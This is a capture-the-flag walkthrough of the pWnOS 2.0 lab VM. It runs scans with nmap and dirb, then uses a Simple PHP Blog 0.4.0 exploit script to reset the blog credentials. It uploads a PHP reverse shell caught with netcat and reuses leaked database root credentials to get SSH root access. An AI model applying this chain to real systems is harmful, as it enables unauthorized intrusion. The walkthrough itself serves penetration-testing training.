

---
# pWnOS: 2.0 - Vulnhub VM Challenge

## Description
**Goal:** <br>
Get root... Win! <br>

**About**: <br>
pWnOS v2.0 is a Virutal Machine Image which hosts a server to pratice penetration testing. It will test your ability to exploit the server and contains multiple entry points to reach the goal (root). It was design to be used with WMWare Workstation 7.0, but can also be used with most other virtual machine software.

**Configuration & Setup:** <br>
Configure your attacking platform to be within the **10.10.10.0/24** network range. <br>

The ip of the attacking machine can be set within the specified range using the commandsd below:

```bash
sudo ifconfig eth0 <your-ip> down
```
```bash
sudo ifconfig eth0 10.10.10.101 up
```
**Server's Network Settings:** <br>

**IP:** 10.10.10.100
<br>
**Netmask:** 255.255.255.0
<br>
**Gateway:** 10.10.10.15
<br>

## Finding the IP of the Target Machine

Here the static ip of the lab is already provided as 10.10.10.100 so we can proceed to run
some scans on this ip.

## Initial Scan 

First, [Nmap scanner](https://github.com/nmap/nmap) is used to find all the open ports and services running. 

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -T4 -A 10.10.10.100 
Starting Nmap 7.91 ( https://nmap.org) at 2021-06-26 16:01 EDT 
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system
dns or specify valid servers with -- dns-servers 
Nmap scan report for 10.10.10.100 
Host is up (0.00185 latency). 
Not shown: 998 closed ports 
PORT   STATE SERVICE VERSION 
22/tcp open  ssh     OpenSSH 5.8p1 Debian lubuntu3 (Ubuntu Linux; protocol 2.0) 
|  ssh-hostkey:
|	 1024 85:03:26:01:09:42:7b:20:48:30:03:60:01:8f:95:ff (DSA) 
|	 2048 30:72:31:9a:1b:b8:17:07:15:df:89:92:0e:cd:58:28 (RSA)
|	 256 10:12:54:46:7d:ff:6a:87:37:26:38:51:44:9f:cf:5e (ECDSA) 
80/tcp open  http    Apache httpd 2.2.17 ((Ubuntu)
|  http-cookie-flags:
|	/:
|	  PHPSESSID:
|		httponly flag not set 
|_http-server-header: Apache/2.2.17 (Ubuntu) 
|_http-title: Welcome to this site! 
Service Info: OS: Linux; CPE: cpe:70:linux:linux kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.48 seconds
```
From this scan, we can see that port 22 and 80 are open. **SSH** service is running on port 22
and an **Apache** server is open on port 80. 
<br>

When we go to the webpage hosted on port 80


Now [Dirb](https://github.com/v0re/dirb) web content scanner is used to find some information about some hidden directories

```bash
┌──(kali㉿kali)-[~]
└─$ dirb http://10.10.10.100/           

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sat Jun 26 16:11:23 2021
URL_BASE: http://10.10.10.100/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.100/ ----
+ http://10.10.10.100/activate (CODE:302|SIZE:0)                                                                                              
==> DIRECTORY: http://10.10.10.100/blog/                                                                                                      
+ http://10.10.10.100/cgi-bin/ (CODE:403|SIZE:288)                                                                                            
==> DIRECTORY: http://10.10.10.100/includes/                                                                                                  
+ http://10.10.10.100/index (CODE:200|SIZE:854)                                                                                               
+ http://10.10.10.100/index.php (CODE:200|SIZE:854)                                                                                           
+ http://10.10.10.100/info (CODE:200|SIZE:50175)                                                                                              
+ http://10.10.10.100/info.php (CODE:200|SIZE:50044)                                                                                          
+ http://10.10.10.100/login (CODE:200|SIZE:1174)                                                                                              
+ http://10.10.10.100/register (CODE:200|SIZE:1562)                                                                                           
+ http://10.10.10.100/server-status (CODE:403|SIZE:293)                                                                                       
                                                                                                                                              
---- Entering directory: http://10.10.10.100/blog/ ----
+ http://10.10.10.100/blog/add (CODE:302|SIZE:0)                                                                                              
+ http://10.10.10.100/blog/atom (CODE:200|SIZE:1062)                                                                                          
+ http://10.10.10.100/blog/categories (CODE:302|SIZE:0)                                                                                       
+ http://10.10.10.100/blog/comments (CODE:302|SIZE:0)                                                                                         
==> DIRECTORY: http://10.10.10.100/blog/config/                                                                                               
+ http://10.10.10.100/blog/contact (CODE:200|SIZE:5898)                                                                                       
==> DIRECTORY: http://10.10.10.100/blog/content/                                                                                              
+ http://10.10.10.100/blog/delete (CODE:302|SIZE:0)                                                                                           
==> DIRECTORY: http://10.10.10.100/blog/docs/                                                                                                 
==> DIRECTORY: http://10.10.10.100/blog/flash/                                                                                                
==> DIRECTORY: http://10.10.10.100/blog/images/                                                                                               
+ http://10.10.10.100/blog/index (CODE:200|SIZE:8094)                                                                                         
+ http://10.10.10.100/blog/index.php (CODE:200|SIZE:8094)                                                                                     
+ http://10.10.10.100/blog/info (CODE:302|SIZE:0)                                                                                             
+ http://10.10.10.100/blog/info.php (CODE:302|SIZE:0)                                                                                         
==> DIRECTORY: http://10.10.10.100/blog/interface/                                                                                            
==> DIRECTORY: http://10.10.10.100/blog/languages/                                                                                            
+ http://10.10.10.100/blog/login (CODE:200|SIZE:5647)                                                                                         
+ http://10.10.10.100/blog/logout (CODE:302|SIZE:0)                                                                                           
+ http://10.10.10.100/blog/options (CODE:302|SIZE:0)                                                                                          
+ http://10.10.10.100/blog/rdf (CODE:200|SIZE:1411)                                                                                           
+ http://10.10.10.100/blog/rss (CODE:200|SIZE:1237)                                                                                           
==> DIRECTORY: http://10.10.10.100/blog/scripts/                                                                                              
+ http://10.10.10.100/blog/search (CODE:200|SIZE:4931)                                                                                        
+ http://10.10.10.100/blog/setup (CODE:302|SIZE:0)                                                                                            
+ http://10.10.10.100/blog/static (CODE:302|SIZE:0)                                                                                           
+ http://10.10.10.100/blog/stats (CODE:200|SIZE:5289)                                                                                         
==> DIRECTORY: http://10.10.10.100/blog/themes/                                                                                               
+ http://10.10.10.100/blog/trackback (CODE:302|SIZE:0)                                                                                        
+ http://10.10.10.100/blog/upgrade (CODE:302|SIZE:0)                                                                                          
                                                                                                                                              
---- Entering directory: http://10.10.10.100/includes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                              
---- Entering directory: http://10.10.10.100/blog/config/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                              
---- Entering directory: http://10.10.10.100/blog/content/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                              
---- Entering directory: http://10.10.10.100/blog/docs/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                              
---- Entering directory: http://10.10.10.100/blog/flash/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                              
---- Entering directory: http://10.10.10.100/blog/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                              
---- Entering directory: http://10.10.10.100/blog/interface/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                              
---- Entering directory: http://10.10.10.100/blog/languages/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                              
---- Entering directory: http://10.10.10.100/blog/scripts/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                                              
---- Entering directory: http://10.10.10.100/blog/themes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Sat Jun 26 16:11:35 2021
DOWNLOADED: 9224 - FOUND: 30
```

Here, we can find that there is a directory named **blog** and also some other directories.

## Exploit 

When we navigate to the directory,


And when we check the page source



It shows that this website runs on [**Simple PHP Blog 0.4.0**](https://www.exploit-db.com/exploits/1191) 
<br>

When we search about that, we will be able to find about a **Perl** script


They have also mentioned the instructions for using the script

```bash
	Usage	: $0 [-h host] [-e exploit]
	
		-?      : this menu
		-h      : host
		-e	: exploit
			(1)	: Upload cmd.php in [site]/images/
			(2)	: Retreive Password file (hash)
			(3)	: Set New User Name and Password
				[NOTE - uppercase switches for exploits]
				-U	: user name
				-P	: password
			(4)	: Delete a System File
				-F	: Path and System File 

	Examples: $0 -h 127.0.0.1 -e 2
		  $0 -h 127.0.0.1 -e 3 -U l33t -P l33t
		  $0 -h 127.0.0.1 -e 4 -F ./index.php
		  $0 -h 127.0.0.1 -e 4 -F ../../../etc/passwd
		  $0 -h 127.0.0.1 -e 1
```

So we download this script and execute it using the command below to add a username and password of our choice

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ perl 1191.pl -h http://10.10.10.100/blog -e 3 -U agent47 -P agent47


                  SimplePHPBlog v0.4.0 Exploits
                             by
                     Kenneth F. Belva, CISSP
                    http://www.ftusecurity.com
________________________________________________________________________________
Running Set New Username and Password Exploit....


Deleted File: ./config/password.txt
./config/password.txt created!
Username is set to: agent47
Password is set to: agent47


*** Exploit Completed....
Have a nice day! :)
```
Now after adding the username and password, we can login to the blog with those credentials.

And when we login,


We can find that there is an update in the menu section. Here the **Upload Image** option is a bit
sketchy. So when we try clicking that,


We were actually able to upload files. So here we can try to upload a reverse shell to proceed
further. Here, a [PHP reverse shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) from Pentest Monkey is uploaded.

**Note:** Before uploading the reverse.php file, make sure to change the ip to the ip of the
attacking machine and port that you want to spawn the shell


After uploading, we check the directory **blog/images** which we found in the initial **dirb** scan. 
When we navigate to the directory, we can see that the file **reverse.php** is actually uploaded and is ready to run.


Now we can set up a **netcat** listener on our machine and open the **reverse.php** file to spawn a reverse shell
like the one below:

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvp 1234
listening on [any] 1234 ...
10.10.10.100: inverse host lookup failed: Host name lookup failure
connect to [10.10.10.101] from (UNKNOWN) [10.10.10.100] 59470
Linux web 2.6.38-8-server #42-Ubuntu SMP Mon Apr 11 03:49:04 UTC 2011 x86_64 x86_64 x86_64 GNU/Linux
 22:06:21 up  3:39,  0 users,  load average: 0.00, 0.01, 0.01
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: can't access tty; job control turned off
$
```

When we list the directory we can find a var folder and then when we list the contents in the
var directory,

```bash
$ cd var
$ ls
backups
cache
crash
index.html
lib
local
lock
log
mail
mysqli_connect.php
opt
run
spool
tmp
uploads
www
$
```

There was something odd in this directory. A **mysqli_connect.php** file was present in the var directory itself. It might be indicating something. 
So when we display the file **mysqli_connect.php**, we get a username and a password

```bash
$ cat mysqli_connect.php
<?php # Script 8.2 - mysqli_connect.php

// This file contains the database access information.
// This file also establishes a connection to MySQL
// and selects the database.

// Set the database access information as constants:

DEFINE ('DB_USER', 'root');
DEFINE ('DB_PASSWORD', 'root@ISIntS');
DEFINE ('DB_HOST', 'localhost');
DEFINE ('DB_NAME', 'ch16');

// Make the connection:

$dbc = @mysqli_connect (DB_HOST, DB_USER, DB_PASSWORD, DB_NAME) OR die ('Could not connect to MySQL: ' . mysqli_connect_error() );

?>$
```

As there was an **SSH** service running in this machine, we try to login with these root credentials.

```bash
┌──(kali㉿kali)-[~]
└─$ ssh root@10.10.10.100
root@10.10.10.100's password: 
Welcome to Ubuntu 11.04 (GNU/Linux 2.6.38-8-server x86_64)

 * Documentation:  http://www.ubuntu.com/server/doc

  System information as of Sun May 2 01:07:49 EDT 2021

  System load:  0.0               Processes:           78
  Usage of /:   2.9% of 38.64GB   Users logged in:     0
  Memory usage: 18%               IP address for eth0: 10.10.10.100
  Swap usage:   0%

  Graph this data and manage this system at https://landscape.canonical.com/
Last login: Sat May  1 19:01:15 2021 from 10.10.10.101
root@web:~# 
root@web:~# whoami
root
root@web:~#
```

Finally, root access is acquired <3


